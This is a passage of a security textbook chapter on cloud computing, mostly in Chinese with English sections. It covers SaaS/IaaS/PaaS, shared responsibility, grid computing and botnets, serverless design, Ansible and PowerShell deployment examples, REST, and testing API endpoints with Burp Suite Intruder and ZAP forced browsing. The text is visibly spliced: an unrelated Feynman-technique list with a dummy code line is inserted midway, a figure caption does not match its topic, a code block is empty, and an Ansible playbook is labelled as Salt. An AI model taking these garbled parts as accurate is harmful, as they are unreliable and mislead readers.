我们已经解决了计算部分。我们拥有大量计算机，成本远低于 20 世纪 50 年代和 60 年代的价格，并且有足够的空间容纳这些计算机。这导致了与传统服务公司之间的另一个区别。上世纪 60 年代初期并不存在网络。即使在 60 年代末至 70 年代初期网络开始构建时，企业也很少直接与服务公司建立网络连接。最多只能通过电话线和调制解调器传输或接收数据，更可能是双方往返交换磁带。

当时，您几乎可以让服务公司完成您想象的任何计算任务。这可能受限于当时人们对这些设备的用途仍在摸索。上世纪 80 年代，我在一家服务公司工作，主要负责管理和打印地址标签，这些标签随后用于大型目录的标签。当时，个人电脑刚刚起步，直接购买硬件和存储容量来存储可能数百万个姓名和地址显然更为困难，因此支付服务公司管理九轨磁带更为便捷。Figure 15.2 展示了一小段九轨磁带。想象一下同时拥有数十段这样的磁带，而个人电脑最大的磁盘驱动器容量可能仅为 5 MB。


**FIGURE 15.2** Nine‑track magnetic tape

我们稍后将详细描述这些服务。首先，是什么让某种服务成为云服务？云计算服务通常具备共同的特征，无论提供何种类型的服务。首先，云计算服务通常通过基于网页的技术进行访问和管理。您可以通过标准协议（如超文本传输协议 HTTP）和呈现语言（如超文本标记语言 HTML）在基于网页的界面上管理或访问服务，这使得您可以通过浏览器从世界任何地方访问该服务。

云计算服务还通常支持快速且灵活的交付，这意味着如果您需要例如一个服务器，只需向提供商请求，即可几乎立即获得服务——远快于您自行或作为企业进行配置所需的数小时、数天或数周。正如您稍后所见，您还可以获得细粒度的访问，即仅获取您想要的服务。并非每个人都需要管理整台服务器并自行安装所需内容。有时，您只需要存储空间或访问某个应用。其余部分则是许多冗余开销。

企业通常拥有其网络中所有服务器的全部资源，而云服务提供商则采用所谓的 *multitenancy*（多租户）模式。想象提供商网络空间中的每台计算机系统像公寓大楼，每个公寓由不同的人租用。云计算服务亦是如此：每台物理服务器上可能存在多个虚拟系统或应用，正如公寓大楼拥有多个公寓和居住者。正如公寓大楼，每个人都希望拥有自己的空间。当然，可能会有共享空间（例如管理界面），但每个公寓应保持私密，以确保居民的资料安全，防止未经授权的访问。

这种多租户模式正是云计算运作的关键，也是其经济规模的基础。如果每项服务都需要一台专用服务器，云提供商就没有商业优势，也没有利润动力。一旦引入多租户，诸多可能性随之开启。除了显著降低单个应用或服务器的成本外，我们还获得了诸多其他好处。

使用云服务的主要优势常被认为是成本降低和运维开销减少——无需额外的机房空间、空调或电力。更重要的是，您可以获得世界级的可用性，这对企业而言难以单独实现。曾经，电信提供商强调所谓的 *five 9s* 可靠性，即 99.999% 的可用性，这在实际操作中意味着每年仅约五分钟的停机时间。如果您考虑一次电力中断，它能仅持续五分钟吗？如果是网络连接中断又如何？显然不一定只有五分钟。

-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```

-   这些提供商中的任何一个的问题在于你会向提供商提供大量数据，即使是用户凭证。这些数据会泄露到提供商，如果提供商被入侵，数据就会被暴露。部分提供商会使用像 Google 和 Facebook 这样的常见、共享的身份验证提供商。这意味着你需要针对身份验证提供商进行攻击，以获取 SaaS 解决方案中某人的用户账户。然而，在某些情况下，提供商可能会使用这些第三方身份验证机制，同时仍然允许用户直接与提供商创建账户。鉴于身份验证过程的复杂性，如果提供商未能实施强有力的身份验证机制，用户账户可能会被泄露。

也许令人困惑的是，我们还有另一种 SaaS：存储作为解决方案。对大多数人来说，这通常指 Google Drive、Microsoft OneDrive 或 Apple iCloud，其中你拥有固定的存储空间，由云提供商提供。与其他云服务一样，你通常可以通过 Web 界面访问你的存储。但在某些情况下，你可以下载并安装一个应用程序在你的电脑上，以便像文件系统的一部分一样与存储进行交互。Figure 15.6 展示了 macOS 系统上 OneDrive 应用的运行情况。这对于在多个系统之间轻松工作同一文件很方便。这是一种轻松将数据从一个系统传输到另一个系统的方式。


**FIGURE 15.6** OneDrive application

然而，这并不是云提供商能提供的唯一存储类型。企业可能需要其他类型的存储。在传统应用中，它们可能希望存储结构化数据，这通常会放入数据库。但并不是所有的 Web 应用都一样。Microsoft 和 Amazon 等云提供商提供所谓的 *blob storage*，用于存储非结构化数据。使用 blob storage，你可以存储各种类型的数据而无需关心数据的具体类型。blob storage 可以用于维护日志信息、供通过 Web 界面提供的文件、图像、视频或音频流、备份数据等。无论你有什么数据，都可以存储在 blob storage 中。在 AWS，这些被称为 *S3 buckets*。你可以在 Figure 15.7 查看创建 S3 bucket 的配置设置。


**FIGURE 15.7** S3 bucket configuration

在所示配置中，公共访问被阻止，这在大多数情况下是合理的默认设置。但如果你想向用户提供访问权限，可能需要放宽限制，允许一定程度的公共访问。一旦 bucket 获得公共访问权限，就必须监控放入 bucket 的文件或其他数据。任何数据，即使是不小心放入公共 bucket，都可能被任何能够找到该 bucket 的人访问。

### Shared Responsibility Model

与本地服务器和服务不同，在本地环境中组织需对从电源和房地产到数据和应用的所有方面负责。而选择的云服务会导致组织在不同程度上承担责任。无论选择哪种服务，提供商始终负责所有的物理服务方面。他们需要管理电力以及供暖、通风和空调（HVAC）。他们还控制物理系统以及运行在虚拟系统中的所有服务。这意味着他们通过仅限需要访问的数据中心人员来保障物理安全。

在 IaaS 场景中，客户开始对操作系统承担责任。提供商负责提供“系统”的可用性，但操作系统的维护和配置以及在操作系统上安装的任何内容都必须由客户负责。从安全角度看，这意味着客户必须配置系统，使其不引入漏洞，也不移除默认建立的必要访问控制。客户还必须确保所有必要的网络控制到位，以保护服务器免受 Internet 上的任何人攻击。

此外，客户负责服务器的所有身份和访问管理（IAM）。客户可能需要自行管理 IAM 解决方案，以创建维护服务器所需的用户，并为可能的额外用户（包括公司提供的服务消费者）提供受限访问。在某些情况下，客户可能会使用 Active Directory 服务器来维护用户和角色，从而为被分配到相应角色的用户提供适当的访问权限。

当我们上升到 PaaS 时，操作系统一直到应用都由云提供商负责。这意味着他们会保持操作系统及时更新补丁。他们可能还会在操作系统内创建用户账户，以便在需要时进行常规维护。他们也会负责应用服务器。例如，在 Windows 上的 .NET 服务器，这属于操作系统的一部分，可以通过操作系统安装程序安装，无需额外的第三方包。对于 Java 应用服务器，提供商同样负责所有必要的更新。客户则需负责其自己的应用，该应用是基于应用服务器开发的。客户也需对保护平台服务器的必要网络控制负责。

对于 SaaS 服务，客户仅负责数据。他们不必担心任何系统或服务的维护。没有应用需要保持更新，也没有系统管理任务需要执行。唯一可能需要关注的行政任务是用户管理。在软件即服务（SaaS）的情况下，通常需要向用户提供访问权限以符合业务协议。如果你是个人用户使用诸如 Smartsheet、Lucidchart 或无数其他 SaaS 解决方案之一，你只需关注自己的账户。无论哪种情况，你都需要创建用户账户，并在企业级协议中分配特定权限。通常，你不需要自行创建或维护身份和访问管理解决方案。

在某些情况下，企业可能会使用其现有的身份基础设施或目录服务，为云服务提供身份验证。这可能是由于实施了联邦服务，这些服务提供了一个单一的身份验证信息存储库，供多个应用程序使用。这些服务特殊，因为它们允许位于单一信任边界之外的应用程序使用这些身份或验证信息。图 15.8（[参考链接](https://example.org/#c15.xhtml#c15-fig-0008)）展示了这种情况的示意图。云内部是企业网络，其中有一个 Active Directory 实例。所有的用户信息，包括用户名、密码以及角色/组，都存储在那里。企业外部有一些额外的服务，它们与中心身份验证信息存储库建立了连接。用户可以拥有一个单一的用户账户，既可以用于企业内部的服务，也可以用于企业外部的服务，从而对用户来说显得无缝。


**图 15.8** Active Directory 联邦

在实践中，这意味着外部实体要么需要能够实时访问企业内部进行身份验证，要么需要能够同步内部 Active Directory 实例与企业外部的身份验证存储库中的身份验证信息。例如，如果你使用 Microsoft Azure 进行云服务，你可以创建 Azure Active Directory 实例来验证云服务，然后与内部 Active Directory 联邦，使账户在两个实例中都存在。所有的账户创建、密码更改或角色变更都会在两个实例中进行，尽管根据已有的联邦协议，两者之间可能会存在延迟。

### 公共云与私有云

我们之前讨论的所有提供商都是公共云实例，因为任何人、任何地点都可以访问它们。唯一的限制完全基于为托管的应用或服务所设计的网络设计和架构。这并不是唯一的云类型。你不必完全外包才能利用云服务。请记住云服务的基本特征：云服务是按需提供且自助式的，意味着你不需要向信息技术管理员请求安装系统并为其提供服务。按需、自助的特性通过易于访问的管理门户得以支持，通常通过 Web 协议（如 HTTPS）提供。

此外，云服务是多租户的。它们之所以是多租户，是因为资源共享。你拥有的系统性能远超单个系统实例的需求，因此可以在同一物理机器上运行多个服务实例，无论是虚拟机还是容器内的虚拟化应用。在公共云环境中，多个租户可能来自不同的企业或个人，公共云环境中服务的分配方式没有保证。

虽然有公共云，但也存在私有云。私有云具备公共云提供的相同功能，至少在按需、自助以及多租户方面是相同的。在私有云中，“多租户”并不意味着多个企业共享同一台服务器，而是指同一企业内的多个部门共享同一台服务器。私有云可以提供公共云的相同自动化功能，包括使用模板快速 provisioning 服务的能力，以及使用代码（软件或配置文件）来自动化系统和服务的 provisioning。

在私有云实现中，常用的软件套件是 OpenStack。使用 OpenStack，你可以在企业内部拥有多个系统，用于管理虚拟机实例以及虚拟化应用实例。OpenStack 架构将多个服务拆分，这些服务可以分布在不同的机器上，分别负责存储管理、用户界面（用于自助和管理的 Web 门户）、计算与容器服务、以及网络和负载均衡。OpenStack 提供了你实现自己的云所需的全部功能，这使你能够更好地控制对这些服务的访问，因为它们位于企业内部网络中，你可以通过网络层和用户层的访问控制来限制谁能访问这些服务。

### 网格计算

尽管过去几十年来计算能力有了显著提升，但仍有问题需要的处理能力远超现代处理器在合理时间内能提供的水平。增加处理能力的常见做法是向单一系统中添加更多处理器。现代处理器在单片上集成了多个处理单元，甚至在某些情况下，系统会包含多个物理处理器。过去，这种做法被用于所谓的 *超级计算机*，这些机器拥有巨大的处理能力，远超普通用户或企业使用的系统。

网格计算是一种通过分散处理能力来增加对问题处理能力的方式，但它要求问题必须以不同的方式来处理。例如，当你在准备晚餐时，通常会按顺序完成一系列步骤。如果厨房里有多个人同时处理不同的任务，你可以更快完成。然而，人类往往倾向于采用线性、顺序式的思维方式来解决问题。当拥有多个处理器时，必须思考如何将解决方案拆分，让多个处理单元同时处理问题的不同部分。这会带来协调和通信方面的挑战，因为不同的处理单元可能需要高度关注其他处理单元的状态，以便获取所需的数据。

当然，也可以将大量的同类问题案例分散到多个系统上处理，这同样需要协调和通信，因为每个处理单元都需要向控制器报告进度，并请求更多工作量，直到个别问题得到解决。通常，这需要网络能力和系统之间的通信。从安全与攻击的角度来看，这意味着存在监听和通信的服务。

你可能听说过或见过网格计算项目。20 世纪 90 年代，`distributed.net` 是一个发起 RSA 实验室密码学挑战的项目。此后，该项目处理了 RSA 实验室的多个其他密码学挑战。SETI@home 是一项网格计算计划，旨在通过空间无线电信号搜寻外星生命。这些都是利用一种称为 CPU 盗用（CPU scavenging）的技术的项目，即使用计算机上未被占用的处理器周期。这些系统可供任何人用于其正常的日常计算需求。当有处理器周期未被使用时，执行这些任务的软件将被允许使用处理器。另一个 CPU 盗用项目是 Folding@home，其目标是通过模拟蛋白质帮助科学家识别疾病治疗方法。如前所述，所有这些项目都需要与其他计算机协同工作以协调任务。以下是一个在 Linux 系统上监听请求的 Folding@home 进程示例：

```
FAHClient 433209            root    7u  IPv4 19284889      0t0  TCP *:7396 (LISTEN)
FAHClient 433209            root    8u  Ipv4 19284890      0t0  TCP *:36330 (LISTEN)
```

Figure 15.9 展示了一个简单的网格计算设置，适用于我们讨论的项目类型。该设置包含一个管理不同客户端工作的控制器。Botnet 也是网格计算的例子。在图的顶部，你会看到控制器；在底部，则是 bots（僵尸）。它们仍然是技术上的客户端，但与前面提到的项目的区别在于，在 botnet 中，计算机的所有者并不意识到自己正在与他人共享系统资源。


**FIGURE 15.9** 创建 Azure 中的函数应用

攻击者也利用网格计算进行加密货币挖矿。系统被入侵后，攻击者可能在受害计算机上安装挖矿软件。挖矿活动与攻击者拥有的加密货币钱包关联，因此攻击者从其入侵的客户端系统的活动中获益。由于此类任务（无论是密码学还是蛋白质折叠） tend to be math intensive（数学密集型），配备图形处理单元（GPU）的计算机更适合此类任务，因为 GPU 专为数学密集型工作设计。如果查看这些项目的统计数据，你会看到 GPU 使用的相关引用。拥有强大 GPU 的系统可能比通用处理器更有效地为这些项目作出贡献。

## 云架构和部署

在许多情况下，你可能只是将已在本地部署的系统直接（保持原有配置）迁移到云提供商。这被称为 *lift‑and‑shift* 方式。你只是把基础设施放入他人的网络，唯一改变的除了网络地址，系统的物理位置也变了。你仍然面临所有在你控制下的系统可能带来的问题。你需要确保操作系统和应用保持最新。你仍然需要系统管理员来支持这些系统和应用。

迁移到云环境可能意味着你可以减少一些运维开销。如前所述，你可以将 Active Directory 实例迁移到 Microsoft Azure，这消除了若干服务器的维护工作。你只需管理用户，而无需担心底层操作系统及其更新。这对已经将邮件外包给 Microsoft 并使用 Office 365（O365）的情况非常适用。所有内容都由 Microsoft 存储，你可以通过 Web 界面进行管理，从而无需使用桌面系统进行管理，也无需维护服务器基础设施。这并不意味着你不会使用桌面机器进行其他目的，而不仅仅是管理 M365（即 O365 加上 Azure）基础设施。

你不必局限于传统的基础设施部署模型。首先，你不需要为用户日常使用的服务器端应用程序运行本地实例。传统的业务应用（如人力资源、计费、招聘等关键功能）可以采用软件即服务（SaaS）模式，即直接向提供商注册，由他们托管软件。基于此，你无需为这些软件维护服务器，从而降低了网络攻击面，因为不存在可被攻击者利用的操作系统和服务。

即使在构建自己的应用时，你也可以思考不同的设计思路。在传统的本地环境中，你可能受限于使用虚拟机或容器，因为更复杂的做法过于…well，复杂。实际上，使用云提供商可以大幅简化很多工作，尽管实现这种简化本身很困难，或至少需要大量工作。如果你在编写程序，是想关注系统实现，还是关注程序本身？为什么写 Web 应用时就不一样呢？

程序通常被分解为函数，也称为 *procedures* 或 *methods*，这使得功能可以重复使用。它还使程序具有响应性，即在响应程序流中的其他事件（如用户输入或按钮点击）时调用函数。没有这些函数或方法，要么程序只能沿单一路径运行，要么变成结构混乱的“意大利面代码”，难以维护和调试。这使得代码难以阅读，也更难解决问题。

现在我们有了函数，可以专注于创建函数，让其他机制负责程序流和调用函数。这正是复杂之处所在。通常，你需要事先确定函数将在哪里运行。你需要一个虚拟机或容器来容纳函数，因为操作系统负责将函数调度到处理器上执行，并在执行完成后卸载或替换它们。通常这需要一个单一的操作系统，因为不同函数之间需要相互传递数据。你可以使用远程代码执行机制（如远程过程调用或远程方法调用），但通常会有一个中心进程来管理整个程序的状态和数据。


The Web is a stateless being, meaning every request has to start from scratch because HTTP, the protocol used to transmit data back and forth between a web server and a client like a browser or mobile application, is stateless. HTTP has no ability to keep track of a user's state. It only knows what has been sent to the server with that request. As that's the case, the piece that knows where everything is resides on the client side. This means we can take advantage of the client knowing the user state to allow the server to really not know anything except what gets handed to it. This helps open the door to serverless processing. We can truly write functions that are called as they are needed without having to know where the function is running.

All of this is a long way of getting around to serverless functions. Cloud‑native designs will often use serverless functions. You don't provision a complete virtual machine or even a container that houses a virtualized application. You write a function and let your cloud provider take care of how your function will be executed and when it will get called. In AWS, you use Lambda, which is serverless computing. In Microsoft Azure, you create a function app, as you can see in Figure 15.10. This configuration page allows you to specify your runtime stack, which is the language that will be used to process the function you write. Using this method of creating applications, we have gone from physical systems to virtual systems to virtual applications to virtual functions.

There are two important ideas to note here. The first is there is no landing space for an attacker to get to in the absence of vulnerabilities in the implementation of serverless functions. Of course, in reality there is a server under the function, or else there would be nowhere for the function to run. Depending on the implementation, there may be a surface area for the attacker to get access to through a vulnerability in your code. This relies on an implementation where some additional external program is available in the virtualized system or container where the function is executing. It also relies on something that shouldn't be happening, which is that the virtual implementation, whether container or server, remains running after the function has ceased. Because they are small and simple by nature, these serverless functions should be easy and quick to instantiate and then tear down on an as‑needed basis, making them ephemeral.

```

```

**FIGURE 15.10** Creating a function app in Azure

### Responsive Design

The smaller and lighter weight an implementation of an application component, the faster it can be to create an instance of that component. This means you can create an implementation of an application where the instances of each component exist for only as long as it takes to serve the request being made. When you are paying for computing on an as‑used basis, having the component run only when it is being used can save on costs. Creating applications where computing resources are used only as needed is more efficient from a cost perspective.

Applications can be designed to be responsive to demand. In a traditional application deployment, especially one before we started to use virtualization technologies, you had a load balancer out in front to manage the requests coming in. The load balancer would then spread the load out across multiple servers behind. If you wanted to handle more requests, you created a new instance of the same server and added it to the load balancer configuration. If you had some foresight, you would have built these additional systems ahead of time and maybe left them powered off until they were needed, to save costs on power and cooling. When you were ready and needed them, you could power them up and adjust the load balancer configuration.

Today, we have the capability, with both system and application virtualization, to adjust to demand on the fly. As requests come in, the needed systems or application instances (containers) get created and added to the pool of computing resources available. This is especially true with the use of infrastructure as code (IaC). Using IaC, you determine exactly what a system is going to look like: the operating system, the applications, and the configuration settings. A decade and a half or more ago, having system deployments that were this planned out was harder. You could create a system installer, but you'd constantly have to be updating it, and it would act like a system installer; you would install the system from the operating system up, though you might have additional elements that got installed as part of the process.

From a security perspective, the use of a responsive design, where individual components may become available on the fly and then, very shortly after, disappear, has some advantages. If you, as an attacker, are able to gain access to one of these resources, you have no idea how long that resource will be available. You could just be getting going on gathering credentials and trying to move to other connected systems when the resource disappears. Additionally, as so much of this style of application development is virtualized, you get access to only a small piece of a system. In the case where containers are used, you may not have any place to land since most pieces of a traditional operating environment are not in the container.

### Cloud‑Native Design

In addition to the ephemeral nature of cloud deployments, where individual elements will disappear after a short time of being available, there are some elements of cloud‑native design that are very different from a traditional application design. A traditional application is monolithic, meaning everything is contained within a single executable or at least within a single execution space. Cloud‑native design decentralizes everything. Rather than calling different functions within the same process space, cloud‑native design may be more likely to use a service‑oriented approach where the functions that may get called are broken out into separate execution spaces all to themselves. These are then called *services*. You can see a simple example of what this might look like in Figure 15.11.


**FIGURE 15.11** Microservices design

The microservice architecture moves away from a monolithic application, which means any service can be implemented in any way that may be beneficial. These services can be implemented in virtual machines, but that increases the attack surface because there is a whole operating system that can be used by the attacker. Services may be implemented using containers, so small programs can be virtualized. This reduces the attack surface, but there is still the possibility of making use of the mechanisms used to manage the container. In some cases, containers may expose ports. Communications to that port will be passed into the container. This may mean the virtualized application receives the communication, or it could be something else receiving the messages. This may include allowing shell access to the container image.


- [使用无服务器设计的另一种方法](https://example.org) 这可能意味着仅使用函数而非虚拟化应用。没有应用。没有容器。没有操作系统。只有一个函数。这并不消除整体应用被入侵的潜在风险。请记住，攻击者的目标不总是，甚至通常也不是 shell 访问，尽管这是常见的误解。他们传统上（即很久以前）的工作方式是这样。今天，攻击者可能只是在寻找可以出售的数据。这意味着对数据的访问，无论是通过利用应用漏洞获得的非授权访问，还是通过 `stolen credentials` 获得的授权访问。函数无法防止这种类型的攻击。函数可以让获得系统级别的入侵变得更加困难，但无法阻止应用或数据访问。

服务器无函数是事件驱动的，这意味着没有单一的应用决定哪个函数会被调用。相反，调用函数可能更容易触发，因为它取决于事件。其中一个事件可能是整体应用使用发布/订阅模型。整个应用有一个事件总线。函数通过发布消息到总线来发送。其他函数可以通过订阅来接收消息。如果一个服务器无函数订阅的消息被放到总线上，该函数就会被调用。另一种触发服务器无函数的方式是使用 HTTP 方法，如 `GET`、`POST`、`PUT` 或 `DELETE`。当整体 Web 应用收到这些 HTTP 请求时，服务器无函数可能会被调用。此外，某些特定的 HTTP 头部的存在也可能导致函数被调用。

由于可能有大量服务在运行，每个都能在消息总线上发布方法，因此获取这些函数的调用方式可能有很多种。这实际上扩大了攻击面，因为可能没有单一的入口点来针对潜在的脆弱代码。这些多个入口点也可能导致认证问题。与其依赖整体应用进行认证，每个函数都必须假设请求可能直接到达该函数，而无需经过任何认证。

尽管服务器无函数可能不让攻击者轻易获得底层操作系统的访问，但 OWASP Top 10 漏洞列表中的风险仍然适用。这尤其适用于配置错误或弱第三方组件导致的漏洞。即使使用云原生设计、微服务和无服务器基础设施，敏感数据仍可能被暴露。

## 部署

目前的部署通常是自动化的。无论目标是 VMware ESXi 服务器上的虚拟机，还是 Microsoft Hyper‑V 服务器，亦或是云提供商的容器，系统资产的部署都可以自动化。虽然自动化的实现方式各有不同，但常见的做法是使用编排平台。使用编排系统通常被称为 `infrastructure as code`（IaC），因为部署是通过脚本语言或客户端‑服务器软件以及定义部署的配置文件来完成。

`Ansible` 是常用的 IaC 软件包之一。它使用一个存放配置文件的服务器以及一个可在运行系统中执行额外配置的软件代理。下面的示例展示了 `Ansible` 在 VMware ESXi 服务器上创建现有模板的新实例。`Ansible` 服务器通过在指定地址使用的凭据与 VMware 服务器通信，并发送命令让模板克隆，从而创建一个新的 Web 服务器实例。这里展示的配置文件采用 `Yet Another Markup Language`（YAML）格式，这与 `Salt` 等类似软件包也常用。虽然此示例展示了在 VMware 服务器上创建虚拟机，但你可以使用任何云提供商执行类似操作。

### Salt 配置

```
- name: Clone existing template
  hosts: localhost
  connection: local
  gather_facts: no
  tasks:
  - name: Create new instance of web server
    vmware_guest:
      hostname: 192.168.3.5
      username: root@192.168.3.5
      password: P4$$w0rd!
      validate_certs: False
      name: webserver_vm
      template: webserver_template
      datacenter: DC1
      folder: /VMs/templates
      state: poweredon
      wait_for_ip_address: yes
```

创建任何虚拟资源实例的另一种方法是使用脚本语言。其中一种是 `Terraform`，它是用于以代码方式构建环境的语言。从名字就能看出其含义——转换环境。它常在科幻作品中出现，用于把其他星球改造成类似地球或更适合人类居住的环境。不过，你不必局限于 `Terraform` 这种特定语言。也可以使用通用语言如 `PowerShell`。下面的示例演示了如何在 Microsoft Azure 中创建虚拟机实例：

```
$resourceGroup = "OurGroup"
$location = "westus"
$adminName = "powershell-user"
$adminPass = "P4$$w0rd!"
$dnsName = Read-Host -Prompt "DNS name for the IP"
 
New-AzResourceGroup -Name $resourceGroup -Location "$location"
New-AzResourceGroupDeployment `
    -ResourceGroupName $resourceGroup `
    -TemplateUri "https://myhost.onmicrosoft.com/azuretemplate.json" `
    -adminUsername $adminUser`
    -adminPassword $adminPass `
    -dnsLabelPrefix $dnsName
 
 (Get-AzVm -ResourceGroupName $resourceGroup).name
```

此代码示例需要 Azure PowerShell 模块。你也可以在 Azure Cloud Shell 中运行此代码，它提供了 `PowerShell` 界面，用于向 Azure 发送程序化命令。这并不意味着你必须使用 Azure 才能执行程序化功能。其他大型云提供商，如 Amazon 和 Google，也提供类似的功能，包括对其 API 的命令行接口。这些是可以在本地机器上安装的软件包，让你能够使用可能被脚本化的命令直接向所选云提供商发送请求。

在 `PowerShell` 示例中，你可能注意到有一个模板的引用。这是一个可以在 Azure 中创建并使用 `JavaScript Object Notation`（JSON）格式存储的配置文件。脚本中引用的就是一个 `JSON` 文件，它可能是在 Azure 中构建虚拟机时生成的。当你完成所有想要的设置（包括磁盘和内存大小以及想要使用的操作系统）后，可以将配置保存为 `JSON` 文件，以便以后每次需要创建相同设置的新实例时直接使用。

其他云提供商也会允许你创建模板，虽然它们可能使用不同的技术来实现。例如，Amazon Web Services（AWS）使用一种名为 `CloudFormation Designer` 的工具来设计完整的网络，如果你正在寻找这种功能。图 15.12 显示了 `CloudFormation Designer`。该工具的工作方式类似于你可能已经使用过的绘图工具。你在左侧工具箱中找到想要的元素，然后拖动它到工作区中。你可以为每个正在使用的元素编辑参数。完成后，你可以将已完成的模板保存为 `JSON` 或 `YAML` 格式。一旦你有一个模板文件，就可以重复使用它来创建相同设计的任何实例。

使用基础设施即代码（IaC）的优势在于，你可以获得可重复且一致的系统和网络实现。此外，因为这些是配置文件或脚本，它们可以被测试，以确保你得到预期的结果。这在模板或 IaC 配置发生变更时特别有帮助。负责云环境运营的人必须确保任何变更不会影响整体应用的运行。

## 处理 REST

HTTP 的一个问题在于它从未设计用于维持客户端与服务器之间的连接。每次客户端与服务器交互时，都像是第一次一样。仅凭 HTTP，服务器无法知道客户端是谁，因为 HTTP 协议本身没有提供跟踪客户端信息的手段。HTTP 被视为无状态协议。协议本身只关注单个请求和响应，`never` 会记住任何关于客户端的信息。这使得编写应用变得困难。当然，HTTP 最初只为简单的请求和响应而设计。你需要记住，它最初是为学术界共享论文和信息而开发的，主要用于在学术圈内交流。自那时起，几十年来 HTTP 的需求不断增长。


**FIGURE 15.12** AWS CloudFormation Designer

目前，编写基于 Web 的应用程序（包括可能在移动设备上使用的界面，后端处理通过 Web 服务器完成）的常见做法是使用 API。移动设备应用程序，或通过传统 Web 浏览器呈现的应用，都会调用存储在 Web 服务器上的 API。这种设计可能会使用 `Representational State Transfer`（REST）。使用 REST 设计风格的应用被称为 `RESTful`。REST 本身不是协议，也不是特定的实现方式，而是一组架构特性。这些特性包括以下几点：

* `Client‑server Architecture`：应用采用多层架构，包含客户端和服务器，尽管在实际操作中可能还需要其他组件来支持应用的功能。

* `Stateless`：应用需要两种状态才能运行。第一种是服务器所知的资源状态，第二种是客户端所知的应用状态。服务器只掌握它有控制权的内容，需要客户端告知其他信息。`RESTful` 应用之所以被视为无状态，是因为服务器并不维护每个客户端的状态，客户端必须向服务器说明应用状态。

* `Cacheability`：在某些情况下，服务器会向客户端传输静态数据。任何不依赖于程序交换的数据（即可能随每次请求而变化的数据）可以本地保存，按需提供，而无需再次由服务器传输。

* `Layered System`：`RESTful` 应用通常涉及多个组件，层次化设计是必要的。它使得客户端和服务器之间的通信不需要关心实现细节。客户端不需要知道应用背后是否有数据库，它属于独立层。同样，如果使用负载均衡器，客户端和服务器也不必关注它们。这种层次结构提供了良好的模块化，使得组件可以替换而不影响整体功能。

* `Uniform Interface`：无论服务器端如何变化，客户端都使用相同的接口。每个请求必须标识资源。客户端需要知道它需要什么，并相应地调用正确的资源。传输的数据应为自描述的，因为数据可能只有半结构化。缺少的数据元素需要明确标识，以便客户端或服务器能够正确解析。

`RESTful` 应用通常使用常见的 HTTP 动词——`GET`、`POST`、`PUT`、`DELETE`——来操作应用的状态及其底层数据。大体上，客户端与服务器之间的通信和普通 HTTP 通信相同，只是 `PUT` 和 `DELETE` 更可能被应用使用，而不是用于获取静态信息。`GET` 和 `POST` 则是常规 Web 请求的主流。测试 `RESTful` 应用的难点在于需要知道应用使用的端点。这些端点本质是功能调用，但它们看起来像 Web 请求。端点是相对于 Web 目录根路径的路径。图 15.13 给出了一个 Web 应用的示例，捕获的客户端与服务器交互是使用 `Burp Suite Community Edition` 完成的。

在图 15.13 中，你会注意到服务器上调用的端点是 `/sdk/`。这可以在左侧的 `POST` 请求中看到。这就是正在调用的函数所在的位置。该函数必须能够处理传入的请求。请求本身是 `XML`（可扩展标记语言），它是一种自描述的数据格式，`HTML` 基于此。请求以及服务器处理请求所需的所有信息都从客户端传递到服务器。响应也包含 `XML` 负载。运行在客户端浏览器中的应用需要能够根据服务器返回的信息更新其显示。


**FIGURE 15.13** Burp Suite testing RESTful application

一旦你了解了端点，就可以开始对其进行测试。在 `Burp Suite` 中这是一项轻松的任务。你选择要使用的请求，即在客户端‑服务器通信流中找到一个针对你想要测试的端点的请求。你可以将该请求发送到 `Burp Suite` 的 `Intruder` 部分。这将帮助你识别想要变更的参数，以便看看是否可以破坏应用程序。这可能包括修改数据、获取未经授权的访问或导致应用程序出现故障。Figure 15.14 显示了一个已发送到 `Burp Suite Intruder` 的请求。`Burp Suite` 自动识别出它认为可以修改的参数。例如，以下内容被 `Burp Suite` 识别为一个参数：

```
<operationID>§esxui-b6df§</operationID>
```


**FIGURE 15.14** Burp Suite Intruder

位于两条 `§` 字符之间的数据是 `Burp Suite` 认为可以调整的内容。使用 `Intruder` 功能，`Burp Suite` 会对选定的参数取不同值，对一组输入进行重复请求。你可以使用 `Burp Suite` 创建不同类型的数据操作。Figure 15.15 展示了 `Burp Suite` 允许的不同负载类型。也许最简单的是 `Simple List`，它允许你使用包含数值列表的文件。这可能需要你了解参数，以判断提供给应用程序的合适值是什么。如果你不清楚哪种数据会有用，可以使用 `Brute Forcer` 选项。该选项允许你指定字符集来生成值。你告诉 `Burp Suite` 最小负载大小和最大负载大小，它会尝试所有可能的值。请记住，请求数量会呈指数增长。使用小写字母和数字，四字符的负载，`Burp Suite` 指示潜在负载数量超过 160 万。更长的负载或更多字符会显著增加请求数量。


**FIGURE 15.15** Payload options

然而，你可能会遇到的问题是能够识别端点。这是一个问题。在应用程序内部没有标准方式来识别所有可能的端点。例如，在我们正在使用的 VMware Web 界面中，似乎所有请求都通过单一端点进行。这并不常见。应用程序可能有数十个端点，具体取决于应用的复杂程度。测试端点时，你可以使用以下几种方法。首先，如果你在进行白盒测试，可以从执行测试的公司处获取所有端点的列表。如果你在进行黑盒测试，可以进行端点暴力枚举（forced browsing）。这涉及向 Web 服务器发送使用端点名称的请求。如果服务器返回未找到错误（通常是 400 系列），你就知道没有找到端点。其他响应可能需要解析。200 响应意味着你找到了服务器认识的名称，除非服务器被配置为返回 200 响应但显示错误页面。这不常见，因为这违背协议，但确实会发生。

进行强制浏览的方法有多种。你可以编写自己的工具，使用脚本语言，例如准备好一组词列表时。在 `Python` 等语言中发送 web 请求并跟踪响应非常容易。词列表可在全网找到，包括 API 端点名称列表 `https://github.com/chrislockard/api_wordlist`。这个词列表也可以用于诸如 `Burp Suite` 之类的工具。你可以再次使用 `Intruder` 功能，选择要变更的请求的最后部分。此外，你还可以使用 `Zed Attack Proxy` (`ZAP`)。它内置了强制浏览功能。你可以在 `ZAP` 中选择一个站点，右键以打开上下文菜单，然后选择 `Attack`；从那里你可以对站点或目录进行强制浏览。你可以在 Figure 15.16 中看到上下文菜单和弹出菜单。


**FIGURE 15.16** Force browse in ZAP

